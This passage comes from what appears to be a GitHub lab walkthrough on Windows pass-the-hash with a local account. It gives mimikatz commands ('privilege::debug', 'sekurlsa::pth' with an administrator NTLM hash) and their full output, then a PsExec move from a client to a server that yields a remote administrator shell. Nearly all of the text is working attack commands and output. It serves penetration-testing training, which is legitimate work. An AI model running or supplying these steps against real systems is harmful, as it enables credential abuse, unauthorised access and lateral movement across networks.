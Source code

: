 ### 2.2.2. Local account
- Using `sekurlsa::pth` for local accounts is similar as domain accounts; just user `*` or `workgroup` for the `/domain` option

```console
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:administrator /domain:* /ntlm:e19ccf75ee54e06b06a5907af13cef42
user    : administrator
domain  : *
program : cmd.exe
impers. : no
NTLM    : e19ccf75ee54e06b06a5907af13cef42
  |  PID  6872
  |  TID  5672
  |  LSA Process was already R/W
  |  LUID 0 ; 13220694 (00000000:00c9bb56)
  \_ msv1_0   - data copy @ 00000129DC9C5AB0 : OK !
  \_ kerberos - data copy @ 00000129DC9D8288
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000129DBEE4128 (32) -> null
```

- Connect to the target machine in the new cmd window
- ☝️ **Note**: `sekurlsa::pth` for local accounts must use the built-in `administrator` account, because only PsExec uses the `ADMIN$` to run the new cmd

```console
C:\Windows\system32>whoami
lab\mike

C:\Windows\system32>hostname
CLIENT

C:\Windows\system32>psexec \\svr cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
svr\administrator

C:\Windows\system32>hostname
SVR
```
